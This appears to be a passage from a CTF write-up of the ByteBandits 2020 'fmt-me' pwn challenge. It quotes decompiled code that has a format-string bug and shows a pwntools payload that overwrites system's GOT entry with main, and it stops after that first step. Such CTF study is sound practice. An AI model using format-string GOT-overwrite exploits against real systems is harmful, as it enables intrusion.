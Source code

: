 you can download full exp from my [github](https://github.com/TaQini/ctf/tree/master/ByteBanditsCTF2020/pwn/write) 

## fmt-me

### Description

> Format strings are so 2000s. 
>
> nc [pwn.byteband.it](http://pwn.byteband.it) 6969


### Attachment

[fmt](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/ByteBanditsCTF2020/pwn/fmt/fmt)

### Analysis

In `snprintf`, our input string (`buf`) will be formated to `other_buf` :

```c
int __cdecl main(int argc, const char **argv, const char **envp){
  char buf; // [rsp+10h] [rbp-110h]
  unsigned __int64 v5; // [rsp+118h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  puts("Choose your name");
  puts("1. Lelouch 2. Saitama 3. Eren");
  printf("Choice: ", 0LL);
  if ( get_int() == 2 )
  {
    puts("Good job. I'll give you a gift.");
    read(0, &buf, 0x100uLL);
    snprintf(other_buf, 0x100uLL, &buf);
    system("echo 'saitama, the real hero'");
  }
  return 0;
}
```

> string will not print to `stdin`, so we can use `%ln` to write memory with any values directly

### Solution

#### infinite loop

First of all, as the binary closes after `system` function,  an `infinite loop` should be created.

We need overwrite GOT of `system` with address of `main` and it can be easily done by `fmtstr_payload` of `pwntools` :

```python
# infinite loop
fmt1 = fmtstr_payload(6,{elf.got['system']:elf.sym['main']},write_size='long')
sla('Choice: ','2')
sla('Good job. I\'ll give you a gift.',fmt1)
```
